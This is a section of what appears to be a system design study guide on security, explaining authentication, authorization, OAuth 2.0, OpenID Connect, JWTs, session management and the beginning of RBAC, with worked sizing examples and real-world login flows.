# 10. Security

[<- Back to master index](../README.md)

---

## Sub-topics

| # | Sub-topic |
|---|-----------|
| 10.1 | [Authentication](#101-authentication) |
| 10.2 | [Authorization](#102-authorization) |
| 10.3 | [OAuth 2.0, OpenID Connect & JWT](#103-oauth-20-openid-connect-jwt) |
| 10.4 | [Session Management](#104-session-management) |
| 10.5 | [RBAC & ABAC](#105-rbac-abac) |
| 10.6 | [Encryption at Rest & in Transit](#106-encryption-at-rest-in-transit) |
| 10.7 | [KMS](#107-kms) |
| 10.8 | [Secret Management](#108-secret-management) |
| 10.9 | [Web Application Threats](#109-web-application-threats) |
| 10.10 | [DDoS Protection & WAF](#1010-ddos-protection-waf) |
| 10.11 | [Zero Trust Security](#1011-zero-trust-security) |
| 10.12 | [Audit Logging](#1012-audit-logging) |

---


<a id="101-authentication"></a>

## 10.1 Authentication

### Overview

Picture the front desk at an office building. Before you reach your floor, someone checks your ID and confirms you are who you claim to be. **Authentication** is that check for software — proving identity before the system decides what you may do.

Technically, authentication verifies the identity of a user, service, or device. It answers **who are you?** using credentials such as passwords, one-time codes, biometrics, API keys, or signed tokens. Authentication always runs **before** authorization; you must establish identity before permission checks make sense.

---

### What problem it fixes

HTTP and most APIs are stateless — each request arrives without built-in memory of who sent it. Without authentication, every endpoint would be anonymous or would rely on guessable identifiers.

Common failures authentication addresses:

- **Impersonation** — anyone could claim to be any user without proof.
- **Credential theft** — plaintext password storage turns a database leak into full account compromise.
- **Weak single-factor login** — password-only accounts fall to phishing and credential stuffing.
- **Unverified services** — microservices cannot tell legitimate callers from attackers on the network.

Authentication establishes a trusted identity that downstream authorization, auditing, and rate limiting can attach to.

---

### What it does

Authentication supports a small set of outcomes:

1. **Verify identity** — confirm the principal matches stored or issued credentials.
2. **Issue proof of identity** — return a session ID, JWT, or similar artifact the client presents on later requests.
3. **Reject invalid attempts** — fail closed on bad passwords, expired tokens, or missing credentials.
4. **Optionally step up trust** — MFA adds a second factor after the first succeeds.

It does **not** decide which files, APIs, or records the principal may access — that is authorization.

---

### How it works — the architecture inside

#### Authentication vs authorization

| | Authentication | Authorization |
|---|----------------|---------------|
| **Verifies** | Identity | Permissions |
| **Question** | Who are you? | What can you do? |

```text
Login → authentication success → authorization check → access resource or deny
```

#### Password-based authentication

Passwords are never stored in plaintext. Registration hashes the password; login hashes the entered value and compares.

```text
Registration: password → hash function (+ salt) → stored hash
Login:        entered password → hash (+ same salt) → compare with stored hash
```

| Bad | Good |
|-----|------|
| `password = "welcome123"` | `password_hash = bcrypt(password, salt)` |

**Preferred algorithms:** BCrypt, Argon2, PBKDF2. **Avoid:** MD5, SHA1 alone (too fast; rainbow tables).

**Salting** adds a per-user random value before hashing so identical passwords produce different hashes and rainbow tables fail.

**How to calculate — bcrypt cost factor tradeoff:**

```text
Given: bcrypt cost factor = 12, server has 4 cores, target ≤ 250 ms per login under load

Step 1 — cost doubles work each +1:
  cost 10 ≈ ~65 ms, cost 11 ≈ ~130 ms, cost 12 ≈ ~250 ms per hash (order-of-magnitude; measure on your CPU)

Step 2 — peak login throughput (single core):
  logins/sec ≈ 1 / 0.25 s = 4 hashes/s per core → 4 cores ≈ 16 logins/s before CPU saturation

Step 3 — trade-off:
  cost 10 → faster logins, weaker against offline GPU cracking
  cost 12 → OWASP-friendly default on modern hardware
  cost 14 → ~1 s/hash — consider only for high-value accounts or Argon2id instead

Result: choose cost where p95 hash time ≈ 200–300 ms on production instance type

Sanity check: cost 8 cracks faster in breach dumps; cost 14 without MFA may DoS your login CPU during stuffing — pair with rate limits (10.18).
```

#### Session-based vs token-based

| | Session-based | Token-based (e.g. JWT) |
|---|---------------|------------------------|
| **State** | Server stores session | Client carries signed token |
| **Client carries** | Session ID in cookie | `Authorization: Bearer <token>` |
| **Trade-off** | Easy logout; needs shared store to scale | Stateless verification; harder instant revocation |

```text
Session: login → server creates session → Set-Cookie → server lookup each request
Token:   login → issue JWT → Bearer header each request → verify signature
```

#### Other mechanisms

| Mechanism | Typical use |
|-----------|-------------|
| **MFA / OTP** | Password + SMS, TOTP app, or hardware key |
| **Social / delegated login** | OAuth 2.0 + OpenID Connect (see 10.3, 10.4) |
| **API keys** | Service integrations, internal APIs |
| **mTLS** | Service-to-service; both sides present certificates |
| **SSO** | One login across many apps via central IdP |

#### MFA factors

| Factor | Examples |
|--------|----------|
| Something you **know** | Password, PIN |
| Something you **have** | Phone, YubiKey |
| Something you **are** | Fingerprint, Face ID |

#### High-level architecture

```text
Client → API Gateway → Auth Service → User DB (+ Token/Session Store)
After login: Client → JWT or session cookie → Gateway → Microservices
```



---

### Pitfalls and design tips

- **Never store plaintext passwords** — use Argon2id or BCrypt with a unique salt per user.
- **Rate-limit login endpoints** — slow brute force and credential-stuffing attacks.
- **Prefer short-lived access tokens** plus refresh tokens over long-lived bearer tokens in browsers.
- **Secure cookies when using sessions** — `HttpOnly`, `Secure`, `SameSite=Lax` or `Strict`.
- **Do not confuse authentication with authorization** — a valid login does not imply admin rights.
- **API keys are identifiers, not strong auth** — rotate them, scope them, and prefer OAuth client credentials or mTLS for service-to-service.
- **Regenerate session ID after login** — prevents session fixation.
- **Default for new web apps:** OIDC social login or email/password + MFA for sensitive apps; JWT or session with Redis for API scale.

---

### Real-world example

**GitHub sign-in with password and TOTP**

1. User submits username and password to `github.com/login`.
2. GitHub verifies the password against a salted hash (BCrypt-style storage).
3. If MFA is enabled, GitHub prompts for a TOTP code from an authenticator app.
4. On success, GitHub creates a **session** (session cookie) and optionally issues device-trust cookies.
5. Subsequent requests send the session cookie; GitHub's edge validates the session before serving repos or settings.
6. Logout destroys the server-side session — immediate revocation, which is harder with long-lived JWTs alone.

This shows password hashing, optional MFA, and session-based proof of identity in a production system millions of users rely on.

---


<a id="102-authorization"></a>

## 10.2 Authorization

### Overview

After the building guard confirms your ID, a separate system decides which floors and rooms your badge opens. **Authorization** is that second step — once identity is known, what is this principal allowed to do?

Technically, authorization evaluates permissions, roles, policies, or ownership rules for an **already authenticated** user, service, or system. It answers **what can you do?** or **what can you access?** and returns allow or deny before business logic runs.

---

### What problem it fixes

Knowing who someone is does not tell you whether they may delete a user, read a payroll file, or call `DELETE /orders/123`.

Without authorization:

- **Over-privileged access** — any logged-in user could reach admin APIs.
- **Horizontal privilege escalation** — user A reads user B's data by guessing IDs.
- **Inconsistent rules** — each microservice invents its own checks; gaps appear at boundaries.
- **Audit gaps** — no structured model of who was allowed to perform sensitive actions.

Authorization centralizes or standardizes **access decisions** so they are explicit, testable, and enforceable.

---

### What it does

Authorization maps an authenticated principal plus a requested action on a resource to **allow** or **deny**:

- **Permissions** — atomic actions such as `READ_USER`, `DELETE_ORDER`.
- **Roles** — named bundles of permissions (`ADMIN`, `MANAGER`).
- **Policies** — rules evaluated by a policy engine (see RBAC and ABAC in 10.7, 10.8).
- **Resource rules** — ownership, ACL entries, or attribute matches.

It does **not** verify passwords or issue tokens — it consumes identity from authentication and optional claims in JWTs or session data.

---

### How it works — the architecture inside

#### Request flow

```text
Request → authentication check → authorization check → handler or 403 Forbidden
```

**Example:**

```http
DELETE /users/101
```

```text
1. Is the caller authenticated?
2. Does the caller have DELETE_USER (or own the resource)?
Both yes → allow; otherwise → deny
```

#### Common models

| Model | Idea | Best for |
|-------|------|----------|
| **RBAC** | User → role → permissions | Admin panels, stable org roles |
| **ABAC** | User + resource + environment attributes | Context rules, compliance |
| **ACL** | Per-resource list of who may do what | Documents, object storage |
| **Resource ownership** | Owner may edit; others may not | Social posts, drive files |

```text
ACL example — Document A:
  User1 → read
  User2 → read, write
  User3 → read, write, delete
```

#### Authorization via JWT claims

Roles or permissions may be embedded at login time:

```json
{ "sub": "101", "role": "ADMIN" }
```

or

```json
{ "permissions": ["READ_USER", "DELETE_USER"] }
```

```text
Receive JWT → validate signature and expiry → extract claims → check required permission
```

**Trade-off:** embedding permissions in JWT speeds checks but stale claims persist until token expiry unless you add versioning or introspection.

#### API endpoint mapping

| Endpoint | Required permission |
|----------|---------------------|
| `GET /users` | `READ_USER` |
| `POST /users` | `CREATE_USER` |
| `DELETE /users/{id}` | `DELETE_USER` |

#### Centralized vs decentralized

| | Centralized | Decentralized |
|---|-------------|---------------|
| **Model** | Dedicated authz service + policy store | Each service owns rules |
| **Benefits** | Consistent governance | Fewer moving parts |
| **Challenges** | Extra hop and dependency | Duplicated, drifting policies |

#### Caching permissions

```text
Request → permission lookup → cache hit/miss → allow or deny
```

Cache role-to-permission mappings in Redis with TTL; invalidate on role changes. Stale cache is a common production bug after permission updates.



---

### Pitfalls and design tips

- **Check authorization on the server** — never rely on UI hiding buttons; clients can call any API.
- **Validate resource ownership** — `GET /orders/123` must confirm the caller owns or may access order 123, not only that they are logged in.
- **Avoid giant permission lists in JWTs** — large claim sets bloat tokens; use roles or centralized policy lookup for fine-grained rights.
- **Default deny** — explicit allow rules; missing policy means deny.
- **Log denials** — repeated 403s on admin paths may indicate attack or misconfiguration.
- **Interview angle:** authentication proves identity; authorization proves entitlement — always in that order.

---

### Real-world example

**Google Drive sharing**

1. Alice authenticates with Google (OIDC — see 10.4).
2. Alice opens `document/abc` and clicks Share; she sets Bob to **Viewer** and Carol to **Editor**.
3. Drive stores an **ACL** on the file: Bob → read, Carol → read + write.
4. Bob requests the file — authorization checks the ACL against Bob's authenticated `sub`; read allowed.
5. Bob attempts to edit — ACL has no write for Bob → deny, even though he is logged in.
6. Carol edits successfully — her ACL entry includes write.

This combines authentication, resource-level ACLs, and role-like share levels in a widely used product.

---


<a id="103-oauth-20-openid-connect-jwt"></a>

## 10.3 OAuth 2.0, OpenID Connect & JWT

### Overview

Imagine lending a valet a key that starts the car and opens the trunk but cannot open your home garage. **OAuth 2.0** works the same way for apps — a user grants a third-party application **limited access** to resources (calendar, photos, profile) **without handing over their password**.

Technically, OAuth 2.0 is an **authorization framework**, not an authentication protocol. It defines roles (resource owner, client, authorization server, resource server), token types (access, refresh), scopes, and standard grants so clients obtain bearer tokens the resource server validates.

---

### What problem it fixes

Before OAuth, users often gave third-party apps their main account password. That creates:

- **Password exposure** — the app stores credentials it should never see.
- **All-or-nothing access** — the app can do anything the user can do.
- **No granular revocation** — changing password breaks the app but is a blunt instrument.
- **No audit trail** — hard to see which app accessed what.

OAuth replaces password sharing with **delegated, scoped, revocable tokens** issued by a trusted authorization server after explicit user consent.

---

### What it does

OAuth 2.0 enables:

1. **User consent** — consent screen lists requested scopes; user approves or denies.
2. **Access tokens** — short-lived bearer tokens sent on API calls (`Authorization: Bearer …`).
3. **Refresh tokens** — long-lived secrets used only at the token endpoint to mint new access tokens.
4. **Scope-limited access** — `read:calendar` does not imply `delete:calendar`.
5. **Revocation** — tokens can be invalidated at the authorization server.

OAuth answers **can this client access these resources on behalf of this user?** — not **who is the user?** (that is OIDC, 10.4).

---

### How it works — the architecture inside

#### Participants

| Role | Description | Example |
|------|-------------|---------|
| **Resource owner** | User who owns the data | You and your Google Calendar |
| **Client** | App requesting access | A meeting scheduler |
| **Authorization server** | Issues tokens after consent | Google OAuth server |
| **Resource server** | Hosts protected APIs | Google Calendar API |

#### Authorization code grant (most common for web/mobile)

Browsers must not receive access tokens in URLs. The code flow uses an intermediate **authorization code** exchanged server-side.

```text
1. Client redirects user to GET /oauth/authorize?client_id&scope&redirect_uri&state
2. User authenticates and consents
3. Authorization server redirects to redirect_uri?code=AUTH_CODE&state
4. Client backend POST /oauth/token with code + client_secret
5. Authorization server returns access_token (+ refresh_token)
6. Client calls resource server with Bearer access_token
```

```text
Why code, not token in browser?
Authorization code → backend exchange → access token never exposed in browser history
```

#### Other grants

| Grant | Use case |
|-------|----------|
| **Client credentials** | Service-to-service; no user |
| **Device code** | TVs, CLI, IoT with limited input |
| **Refresh token** | Obtain new access token without re-login |

**Client credentials flow:**

```text
Service → client_id + client_secret → /oauth/token → access_token → API
```

#### Token validation

```text
API → extract Bearer token → validate signature or introspect → check expiry and scopes → allow or deny
```

**Introspection** — resource server asks authorization server about opaque tokens:

```text
POST /introspect token=… → { active: true, scope: "read:orders", exp: … }
```

#### Standard endpoints

| Endpoint | Purpose |
|----------|---------|
| `/authorize` | Login + consent |
| `/token` | Issue tokens |
| `/revoke` | Invalidate tokens |
| `/introspect` | Validate opaque tokens |

```mermaid
flowchart LR
    User[Resource owner] --> Client[Client app]
    Client --> AuthZ[Authorization server]
    AuthZ --> Consent[Login and consent]
    Consent --> Code[Authorization code]
    Code --> TokenEP[Token endpoint]
    TokenEP --> Access[Access token]
    Access --> Resource[Resource server API]
    Resource --> Data[Protected data]
```

---

### Pitfalls and design tips

- **OAuth is not login** — using access tokens as session proof confuses authorization with identity; use OIDC ID tokens for authentication.
- **Always validate `state`** — prevents CSRF on the redirect callback.
- **Never expose client_secret in mobile or SPA binaries** — use PKCE for public clients instead of secrets.
- **Prefer authorization code + PKCE** over implicit or password grants (deprecated patterns).
- **Scope minimally** — request only scopes the feature needs; users trust smaller consent screens.
- **Short access token TTL** — pair with refresh token rotation for compromise recovery.
- **Production stacks:** Keycloak, Auth0, Okta, Google Identity — all implement the same grant shapes.

---

### Real-world example

**A travel app adding Google Calendar events**

1. User clicks "Connect Google Calendar" in the travel app (OAuth **client**).
2. Browser redirects to `accounts.google.com/o/oauth2/v2/auth` with `scope=https://www.googleapis.com/auth/calendar.events` and `response_type=code`.
3. User signs into Google and approves calendar access on the **consent screen**.
4. Google redirects to the app's callback with an **authorization code**.
5. The app's backend exchanges the code at Google's **token endpoint** for an **access token** and **refresh token** (server-side, with client secret).
6. The app calls `https://www.googleapis.com/calendar/v3/calendars/primary/events` with `Authorization: Bearer <access_token>` to create events.
7. When the access token expires, the backend uses the **refresh token** to obtain a new one without asking the user to log in again.

Google's documented Calendar API uses exactly this OAuth 2.0 authorization code pattern.

---


### OpenID Connect

#### Overview

OAuth tells an app *what it may access*; it does not standardize *who logged in*. **OpenID Connect (OIDC)** adds that missing piece — like upgrading a valet key to a driver's license that proves your name and photo, built on the same OAuth infrastructure.

Technically, OIDC is an **identity layer on top of OAuth 2.0**. It introduces the **ID token** (usually a JWT), standard claims (`sub`, `email`, `name`), the `openid` scope, discovery metadata, JWKS for signature verification, and the UserInfo endpoint so relying parties authenticate users without handling passwords.

---

#### What problem it fixes

Pure OAuth 2.0 returns an access token for APIs but does not tell the client **which user** authenticated in a portable, verifiable way. Apps invented ad hoc profile fetches and insecure shortcuts.

OIDC fixes:

- **Standard identity proof** — signed ID token with stable `sub` (subject).
- **Interoperable social login** — "Sign in with Google/Microsoft/Apple" uses the same contract.
- **SSO across apps** — one IdP session feeds many relying parties.
- **Verifiable claims** — iss, aud, exp checks plus JWKS signature validation.

---

#### What it does

OIDC provides:

| Artifact | Purpose |
|----------|---------|
| **ID token** | Proof of authentication; who the user is |
| **Access token** | OAuth API access (unchanged from OAuth 2.0) |
| **UserInfo** | Optional extra profile fields |
| **Discovery document** | Machine-readable endpoints and capabilities |
| **JWKS** | Public keys to verify ID token signatures |

Adding scope `openid` switches an OAuth flow into an OIDC flow.

---

#### How it works — the architecture inside

#### OAuth vs OIDC

| | OAuth 2.0 | OIDC |
|---|-----------|------|
| **Focus** | Authorization | Authentication |
| **Question** | What can be accessed? | Who is the user? |
| **Primary return** | Access token | ID token + access token |

#### Authorization code flow with OIDC

```text
User → client → IdP login → consent (openid profile email) → authorization code
→ backend token exchange → id_token + access_token + refresh_token
```

#### ID token payload (example)

```json
{
  "sub": "12345",
  "name": "John Doe",
  "email": "john@example.com",
  "iss": "https://accounts.google.com",
  "aud": "my-client-id",
  "exp": 1711111111,
  "iat": 1711107511
}
```

| Claim | Meaning |
|-------|---------|
| `sub` | Stable unique user ID at this IdP |
| `iss` | Issuer — who signed the token |
| `aud` | Intended client application |
| `exp` | Expiration — reject after this time |

#### OIDC scopes

| Scope | Provides |
|-------|----------|
| `openid` | **Required** — enables OIDC |
| `profile` | Name, picture, etc. |
| `email` | Email and verified flag |

```text
scope=openid profile email
```

Without `openid` → OAuth-only flow (no standard ID token).

#### Discovery and JWKS

Clients fetch `/.well-known/openid-configuration` for authorize, token, UserInfo, and jwks URIs. **JWKS** publishes public keys:

```text
Receive ID token → fetch JWKS from iss → verify RS256 signature → validate iss, aud, exp, sub
```

#### UserInfo endpoint

```text
GET /userinfo
Authorization: Bearer <access_token>
→ { "name": "John", "email": "john@example.com" }
```

Use when claims beyond the ID token are needed; ID token alone is enough for many login flows.



---

#### Pitfalls and design tips

- **Validate ID tokens server-side** — never trust decoded JWT payload in the browser alone; check signature, `iss`, `aud`, `exp`, and `nonce` (for implicit/hybrid; code flow uses server exchange).
- **Use `sub` as the stable user key** — email can change; `sub` is the canonical IdP identifier.
- **Do not send ID tokens to APIs** — APIs expect access tokens; ID tokens are for the client to learn identity.
- **Fetch JWKS with caching** — respect `kid` header to pick the right key; handle key rotation.
- **OIDC ≠ OAuth** — interviewers often test whether you know OIDC adds identity on OAuth's delegation model.
- **Default for enterprise SSO:** OIDC to Okta, Azure AD, or Keycloak; same pattern as social login.

---

#### Real-world example

**"Sign in with Google" on a SaaS dashboard**

1. SaaS app redirects to Google with `scope=openid email profile` and `response_type=code`.
2. User authenticates with Google and consents.
3. Google returns an authorization code to the SaaS callback URL.
4. SaaS backend exchanges the code at Google's token endpoint and receives an **ID token** (JWT) and **access token**.
5. Backend verifies the ID token: signature against Google's JWKS, `aud` matches SaaS client ID, `exp` not passed, `email_verified` true if required.
6. SaaS maps `sub` to a local user record (create or link) and creates its own session cookie.
7. Optional: SaaS calls Google UserInfo or Google APIs with the **access token** — not with the ID token.

Google's OpenID Connect documentation describes this exact discovery, JWKS, and ID token claim set.

---


### JWT

#### Overview

Think of a JWT as a tamper-evident badge: the front shows your name and role, and a holographic seal proves the issuer printed it — if anyone scratches out "Visitor" and writes "Admin," the seal breaks. **JSON Web Tokens** carry signed claims between services without a central session lookup on every request.

Technically, a JWT is `Header.Payload.Signature` — Base64URL-encoded JSON plus a cryptographic signature (HMAC or RSA/ECDSA). Verifiers check the signature and standard claims (`exp`, `iss`, `aud`) to trust the payload. The payload is **encoded, not encrypted**; anyone holding the token can read it.

---

#### What problem it fixes

**Session-based auth** requires a shared session store or sticky sessions so every server can resolve `SESSION_ID` → user. At scale across regions and microservices, that store becomes a bottleneck and failure point.

JWTs enable **stateless verification**:

```text
Session: Client → session ID → server → session store lookup
JWT:     Client → JWT → server → verify signature locally → trust claims
```

This suits APIs, microservices, and CDNs that cannot all reach one Redis cluster on every request.

---

#### What it does

A JWT **asserts** signed claims — identity (`sub`), roles, permissions, scopes, issuer, expiry — in a compact string suitable for HTTP headers. Common uses:

- Access tokens after login
- Service-to-service auth (signed by auth service, verified by each microservice)
- OIDC ID tokens (profile claims)
- Short-lived, self-contained authorization hints

It does **not** encrypt sensitive data by default (use JWE for encrypted tokens, rarely needed if tokens stay HTTPS-only and minimal).

---

#### How it works — the architecture inside

#### Structure

```text
Header.Payload.Signature

Example: eyJhbGci....eyJzdWI....SflKxwRJ...
```

**Header:**

```json
{ "alg": "HS256", "typ": "JWT" }
```

**Payload (claims):**

```json
{
  "sub": "101",
  "name": "John",
  "role": "ADMIN",
  "iss": "auth-service",
  "aud": "api-gateway",
  "exp": 1750000000,
  "iat": 1749996400
}
```

**Signature (HS256):**

```text
HMACSHA256(base64url(header) + "." + base64url(payload), secret)
```

Tampering with payload invalidates the signature.

#### Claim categories

| Type | Examples |
|------|----------|
| **Registered** | `sub`, `iss`, `aud`, `exp`, `iat`, `nbf`, `jti` |
| **Public** | Agreed names like `department` |
| **Private** | App-specific `userId`, `permissions` |

#### Authentication flow

```text
Login → auth service validates credentials → build claims → sign JWT → return to client
Client → Authorization: Bearer <JWT> → API validates → process request
```

#### Signing algorithms

| Algorithm | Type | When to use |
|-----------|------|-------------|
| **HS256** | Symmetric — one shared secret | Single service or trusted small set |
| **RS256 / ES256** | Asymmetric — private sign, public verify | Microservices, OIDC IdPs |

```text
RS256: Auth service signs with private key → each microservice verifies with public key from JWKS
```

#### Access + refresh token pair

```text
Access token:  short-lived (minutes), sent on every API call
Refresh token: long-lived, stored securely, exchanged only at /token for new access token
```

When access token expires → client sends refresh token → new access token (optionally rotate refresh token).

**How to calculate — JWT expiry sizing:**

```text
Given: SPA session UX target = 8 h without re-login, stolen-token risk window, API load 10k req/s

Step 1 — access token TTL (minimize replay window):
  access_ttl = 15 min (common) → attacker window ≤ 15 min without refresh theft

Step 2 — refresh token TTL (UX):
  refresh_ttl = 7–30 days with rotation on each use

Step 3 — re-auth math for 8 h active use:
  refresh calls ≈ 8 h / 15 min = 32 silent refreshes per workday

Step 4 — revocation trade-off:
  stateless access JWT → logout effective at access_ttl unless blocklist (Redis) or token version bump

Result: access = 15 min, refresh = 30 days rotated, absolute re-login at 30 days

Sanity check: access_ttl > 1 h widens stolen-token blast radius;
             access_ttl < 5 min spams /token and hurts mobile offline UX.
```

#### Revocation challenge

Stateless JWTs remain valid until `exp` unless you add:

- Short `exp` (most common)
- Token blocklist (Redis) for logout/compromise
- `jti` versioning — bump user token version in DB; reject old version



---

#### Pitfalls and design tips

- **Never put secrets in the payload** — credit cards, passwords, PII; tokens leak via logs and browser extensions.
- **Always validate `iss`, `aud`, `exp`, and signature** — skipping `aud` allows cross-service token replay.
- **Prefer RS256 over HS256 in microservices** — avoids sharing the signing secret with every service.
- **Short access token lifetime** — 15 minutes is common; use refresh tokens for UX.
- **Do not store JWTs in localStorage if XSS is a risk** — HttpOnly cookies trade off CSRF complexity (see 10.6, 10.13).
- **Large permission arrays bloat tokens** — use roles or server-side policy lookup.
- **Libraries:** `jsonwebtoken` (Node), `PyJWT`, `jjwt` (Java), framework middleware — never hand-roll crypto.

---

#### Real-world example

**Auth0-issued access token for a SPA + API**

1. User logs in via Auth0 Universal Login (OIDC).
2. Auth0 returns an access token JWT with `iss=https://tenant.auth0.com/`, `aud=https://api.myapp.com`, `sub=auth0|abc123`, and custom claim `permissions: ["read:reports"]`.
3. SPA calls `GET https://api.myapp.com/reports` with `Authorization: Bearer <JWT>`.
4. API middleware downloads Auth0 JWKS, verifies RS256 signature, checks `aud` and `exp`.
5. Authorization middleware requires `read:reports` in claims before returning data.
6. After 24 hours (or configured TTL), token expires; SPA uses refresh token silently to obtain a new access token.

Auth0 documents this JWT validation flow with JWKS — a standard production pattern.

---


<a id="104-session-management"></a>

## 10.4 Session Management

### Overview

HTTP forgets you the moment each request ends — like a amnesiac receptionist. **Session management** gives the server a way to remember who you are across page loads: you log in once, receive a session ticket, and every later request presents that ticket so the server reloads your identity.

Technically, after authentication the server creates a **session record** (user ID, roles, timestamps) keyed by a cryptographically random **session ID**. The client stores the ID — usually in an **HttpOnly cookie** — and sends it on each request. The server looks up session data before handling the request.

---

### What problem it fixes

Without sessions (or equivalent tokens), users would re-enter credentials on every click. Stateless HTTP alone cannot maintain shopping carts, login state, or admin context.

Sessions also enable:

- **Immediate logout** — delete server record; cookie becomes useless.
- **Server-side invalidation** — revoke compromised sessions without waiting for token expiry.
- **Rich server state** — store preferences, MFA level, impersonation flags alongside user ID.

The trade-off is **operational state** — something must store and replicate sessions at scale.

---

### What it does

Session management covers the full lifecycle:

1. **Create** — on successful login, generate session ID, persist session, set cookie.
2. **Resume** — on each request, map session ID → user context.
3. **Refresh** — extend idle timeout on activity.
4. **Expire** — idle timeout, absolute max lifetime.
5. **Destroy** — logout, security event, or admin revocation.

---

### How it works — the architecture inside

#### Creation and lookup

```text
Login → validate credentials → create session { userId, role, loginTime }
→ generate sessionId → store in session store → Set-Cookie: SESSION_ID=…
```

```text
Next request: Cookie SESSION_ID=abc123 → lookup → User John, Role ADMIN → proceed
```

#### Session storage options

| Approach | Pattern |
|----------|---------|
| **In-memory (single server)** | Simple; lost on restart; no scale |
| **Sticky sessions** | Load balancer pins user to one server — fragile |
| **Centralized store (Redis)** | All app servers read/write same sessions — preferred |

```text
Redis key: session:abc123
Value:     { userId: 101, role: "ADMIN", lastActivity: … }
TTL:       idle timeout (e.g. 30 minutes)
```

#### Timeouts

| Type | Behavior |
|------|----------|
| **Idle** | No activity for 30 min → expire |
| **Absolute** | Max 8 hours from login regardless of activity |

```text
Login 10:00 → absolute cap 18:00 → session ends at 18:00 even if active
```

**How to calculate — session TTL:**

```text
Given: idle_timeout = 30 min, absolute_max = 8 h, user activity every 5 min from 09:00 login

Step 1 — idle refresh on each request:
  Redis TTL reset to 30 min on every authenticated call (sliding idle window)

Step 2 — activity pattern 09:00–17:00 (requests every 5 min):
  session stays alive via sliding idle — idle timer never fires

Step 3 — absolute cap:
  login 09:00 + 8 h → forced logout at 17:00 regardless of activity

Step 4 — Redis key lifetime:
  key TTL = min(idle_remaining, absolute_remaining) on each touch

Result: active banker works all day; lunch break > 30 min without calls → re-login

Sanity check: idle-only without absolute_max → stolen session lives forever if attacker polls;
             absolute 8 h meets typical compliance; banking may use 15 min idle + 30 min absolute.
```

#### Secure cookie flags

```http
Set-Cookie: SESSION_ID=abc123; HttpOnly; Secure; SameSite=Lax; Path=/
```

| Flag | Purpose |
|------|---------|
| `HttpOnly` | JavaScript cannot read — mitigates XSS theft |
| `Secure` | HTTPS only |
| `SameSite` | Reduces cross-site cookie sending (CSRF aid) |

#### Threats

| Attack | Mitigation |
|--------|------------|
| **Session fixation** | Issue **new** session ID after login |
| **Session hijacking** | HTTPS, HttpOnly, short timeouts, rotate on privilege change |

#### Microservices pattern

```text
Client → API gateway → validate session (Redis) → forward user headers to services
```

Gateway or dedicated auth service owns session validation; microservices trust internal identity headers only on private networks.



---

### Pitfalls and design tips

- **Prefer centralized Redis over sticky sessions** — sticky breaks when servers drain for deploys.
- **Regenerate session ID on login and privilege elevation** — stops fixation and limits hijack window.
- **Set both idle and absolute timeouts** — idle for security; absolute for compliance.
- **Do not put session IDs in URLs** — they leak via Referer headers and logs.
- **Redis: use `SETEX` or TTL** — automatic cleanup beats scanning expired keys.
- **Session vs JWT:** choose sessions when you need instant revocation and server-controlled logout; JWT when you need stateless cross-region verification.
- **Production default:** Redis session store with `ioredis` / Spring Session / Django sessions cached in Redis.

---

### Real-world example

**Rails app with Redis session store**

1. User posts credentials to `/login`; Rails authenticates against PostgreSQL.
2. `Rails.application.config.session_store :redis_store` writes session data to Redis key `_app_session:abc123`.
3. Browser receives `Set-Cookie: _app_session=abc123; HttpOnly; Secure; SameSite=Lax`.
4. Each request includes the cookie; Rails middleware loads the session hash from Redis (~1 ms).
5. User idle 30 minutes — Redis TTL expires key; next request redirects to login.
6. User clicks Logout — Rails deletes Redis key and clears cookie immediately.

This is the documented Rails + Redis session pattern used by many production web apps.

---


<a id="105-rbac-abac"></a>

## 10.5 RBAC & ABAC

### Overview

Instead of listing every employee's permissions individually, companies assign **job titles** — Manager, Engineer, Intern — each with a standard access package. **Role-based access control (RBAC)** does the same in software: users get **roles**, roles bundle **permissions**, and access checks ask whether the user's role includes the required permission.

Technically, RBAC is a model where `User → Role → Permission` forms the authorization graph. A request maps to a required permission (e.g. `DELETE_USER`); the system resolves the caller's roles and allows the action if any role grants that permission.

---

### What problem it fixes

Assigning dozens of permissions per user does not scale — onboarding is slow, audits are painful, and mistakes leave excess privilege.

RBAC fixes:

- **Administrative overhead** — add user to `MANAGER` role instead of ticking 20 boxes.
- **Inconsistent access** — same role means same permissions across users.
- **Reviewability** — auditors inspect role definitions, not per-user ad hoc grants.

It struggles when rules need rich context ("only if same department and business hours") — that is ABAC (10.8).

---

### What it does

RBAC provides:

- **Permissions** — atomic actions: `READ_USER`, `EXPORT_DATA`.
- **Roles** — named sets: `ADMIN`, `MANAGER`, `USER`.
- **User-role assignment** — users hold one or many roles.
- **Enforcement** — API or UI checks role permissions before allow.

```text
ADMIN
 ├── READ_USER
 ├── CREATE_USER
 ├── UPDATE_USER
 └── DELETE_USER

MANAGER
 ├── READ_USER
 └── VIEW_REPORTS

USER
 └── READ_PROFILE
```

---

### How it works — the architecture inside

#### Request flow

```http
DELETE /users/101
```

```text
1. Authenticate user
2. Load roles for user → e.g. ADMIN
3. ADMIN includes DELETE_USER? → allow : deny
```

#### Database schema

```text
Users          Roles           Permissions
id             id              id
name           role_name       permission_name

User_Roles          Role_Permissions
user_id, role_id    role_id, permission_id
```

#### Granularity

| Style | Example |
|-------|---------|
| **Coarse** | `ADMIN` vs `USER` for whole app |
